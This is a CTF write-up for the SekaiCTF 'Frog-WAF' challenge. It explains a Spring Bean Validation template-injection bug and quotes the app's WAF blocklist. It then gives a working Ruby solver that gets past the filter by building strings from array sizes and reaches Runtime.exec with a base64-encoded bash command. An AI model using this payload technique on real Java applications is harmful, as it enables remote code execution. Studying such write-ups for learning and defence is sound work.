




# Frog-WAF


- [dist.zip](assets/dist.zip)

## TL;DR

the challenge is about a Spring application that is vulnerable to SSTI via `buildConstraintViolationWithTemplate` in a custom validator, but with a very strict WAF and no outbound connections from the challenge box.

## Details

looking at the source, the app has an endpoint `/addContact`:
```java
    @PostMapping("/addContact")
    ResponseEntity<String> addContact(HttpSession session, @Valid @RequestBody Contact contact) {
        if (session.getAttribute(CONTACTS) == null) {
            session.setAttribute(CONTACTS, new ArrayList<Contact>());
        }
        val contacts = (ArrayList<Contact>) session.getAttribute(CONTACTS);
        contacts.add(contact);
        return ResponseEntity.ok("contact added");
    }
```
with a `@Valid` annotation for `Contact`, `country` field of `Contact` is validated with a custom validator class:
```java
@Getter
@Setter
@Entity
public class Contact {

    @Id
    @GeneratedValue
    private Long id;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String firstName;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String lastName;

    @NotNull
    @Pattern(regexp = "^[A-Z][a-z]{2,}$")
    private String description;

    @NotNull
    @CheckCountry
    private String country;

}
```
`CheckCountry`:
```java
@Target({FIELD, METHOD, PARAMETER, ANNOTATION_TYPE, TYPE_USE})
@Retention(RUNTIME)
@Constraint(validatedBy = CountryValidator.class)
@Documented
@Repeatable(CheckCountry.List.class)
public @interface CheckCountry {

    String message() default "Invalid country";

    Class<?>[] groups() default {};

    Class<? extends Payload>[] payload() default {};

    @Target({FIELD, METHOD, PARAMETER, ANNOTATION_TYPE})
    @Retention(RUNTIME)
    @Documented
    @interface List {
        CheckCountry[] value();
    }
}
```
it is validatedBy `CountryValidator`:
```java
public class CountryValidator implements ConstraintValidator<CheckCountry, String> {

    @SneakyThrows
    @Override
    public boolean isValid(final String input, final ConstraintValidatorContext constraintContext) {
        if (input == null) {
            return true;
        }

        val v = FrogWaf.getViolationByString(input);
        if (v.isPresent()) {
            val msg = String.format("Malicious input found: %s", v);
            throw new AccessDeniedException(msg);
        }

        val countries = StreamUtils.copyToString(new ClassPathResource("countries").getInputStream(), Charset.defaultCharset()).split("\n");
        val isValid = Arrays.asList(countries).contains(input);

        if (!isValid) {
            val message = String.format("%s is not a valid country", input);
            constraintContext.disableDefaultConstraintViolation();
            constraintContext.buildConstraintViolationWithTemplate(message)
                    .addConstraintViolation();
        }
            return isValid;
    }
}
```

but the field value is checked first using a WAF:

```java
        val v = FrogWaf.getViolationByString(input);
        if (v.isPresent()) {
            val msg = String.format("Malicious input found: %s", v);
            throw new AccessDeniedException(msg);
        }
```

here is the blacklist (our SSTI exploit must not include any of these):
```java
public enum AttackTypes {
    SQLI("\"", "'", "#"),
    XSS(">", "<"),
    OS_INJECTION("bash", "&", "|", ";", "`", "~", "*"),
    CODE_INJECTION("for", "while", "goto", "if"),
    JAVA_INJECTION("Runtime", "class", "java", "Name", "char", "Process", "cmd", "eval", "Char", "true", "false"),
    IDK("+", "-", "/", "*", "%", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9");

    @Getter
    private final String[] attackStrings;

    AttackTypes(String... attackStrings) {
        this.attackStrings = attackStrings;
    }

}
```

the issue mainly are quotes and numbers, so strings must be built using their char points at runtime. looking at the filter you can see that arrays are allowed. 



Arrays are mainly what my encoder laveraged, for example to get number 5, i would create an array with 5 items then get its size:



here is the solver:

```ruby
require 'http'

def gen_s(s)
    a = <<E.strip!
    [].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()).getClass().getMethods()[#{Array.new(5, []).inspect}.size()].invoke([].toString().getClass().getMethods()[#{Array.new(22, []).inspect}.size()].invoke([].toString(), [].size()), %s.size())
E
    r = []
    s.chars.each do |c|
        r << a % Array.new(c.ord, []).inspect
    end
    sr = ""
    r.each do
        if sr.length.zero?
            sr << _1
            next
        else
            sr << (".concat(%s)" % _1)
        end
    end
    sr
end

cn = gen_s("java.lang.Runtime")
# https://ares-x.com/tools/runtime-exec/
cmd = gen_s("bash -c {echo,Y2F0IC9mbGFnLSoudHh0}|{base64,-d}|{bash,-i}")
bcn = gen_s("java.util.Base64")

exp = <<E.strip!
[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{cn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).exec(#{cmd}).getInputStream()
E

r_exp = <<E.strip!
${[].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null).getClass().getMethods()[#{Array.new(4, []).inspect}.size()].invoke([].getClass().getClass().getMethods()[#{Array.new(2, []).inspect}.size()].invoke(null, #{bcn}).getMethods()[#{Array.new(6, []).inspect}.size()].invoke(null), #{exp}.readAllBytes())}
E

# url = "http://10.32.119.13:1337/addContact"
url = "http://frog-waf.chals.sekai.team/addContact"

r = HTTP.post(url, json: {"firstName": "test", "lastName": "test", "description": "test", "country": r_exp})
puts r
```

which produces roughly (via reflection):
```java
Base64.getEncoder().encodeToString([].getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,Y2F0IC9mbGFnLSoudHh0}|{base64,-d}|{bash,-i}").getInputStream().readAllBytes())
```



flag: `SEKAI{0h_w0w_y0u_r34lly_b34t_fr0g_wAf_c0ngr4ts!!!!}`
